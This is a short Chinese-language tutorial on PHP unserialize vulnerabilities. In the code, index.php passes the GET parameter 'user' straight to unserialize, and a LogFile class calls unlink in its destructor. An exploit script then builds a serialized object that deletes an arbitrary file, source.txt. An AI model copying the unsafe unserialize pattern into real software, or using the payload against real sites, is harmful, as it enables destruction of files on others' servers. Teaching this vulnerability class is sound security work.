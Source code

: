 根据参考的文章来验证，给出2个php文件。

logfile.php 删除临时日志文件

~~~PHP
<?php
class LogFile {
    //log文件名
    public $filename = 'error.log';
    //存储日志文件
    public function LogData($text) {
        echo 'Log some data:' . $text . '<br />';
        file_put_contents($this->filename, $text, FILE_APPEND);
    }
    //Destructor删除日志文件
    public function __destruct() {
        echo '__destruct delete' . $this->filename . 'file.<br />';
        unlink(dirname(__FILE__) . '/' . $this->filename); //删除当前目录下的filename这个文件
    }
}
?>
~~~

包含了'logfile.php'的主页面文件index.php

~~~PHP
<?php
include 'logfile.php';

class User {
    //属性
    public $age = 0;
    public $name = '';
    //调用函数来输出类中属性
    public function PrintData() {
        echo 'User' . $this->name . 'is' . $this->age . 'years old.<br />';
    }
}
$usr = unserialize($_GET['user']);
?>
~~~

梳理下这2个php文件的功能，index.php是一个有php序列化漏洞的主业文件，logfile.php的功能就是在临时日志文件被记录了之后调用
`__destruct`方法来删除临时日志的一个php文件。
这个代码写的有点逻辑漏洞的感觉，利用这个漏洞的方式就是，通过构造能够删除source.txt的序列化字符串，然后get方式传入被反序列化函数,反序列化为对象，对象销毁后调用__destruct()来删除source.txt.

#### 漏洞利用
 exp.php为漏洞利用程序（为了得到删除source.txt的序列化字符串）

~~~PHP
<?php
include 'logfile.php';
$obj = new LogFile();
$obj->filename = 'source.txt'; //source.txt为你想删除的文件
echo serialize($obj) . '<br />';
?>
~~~
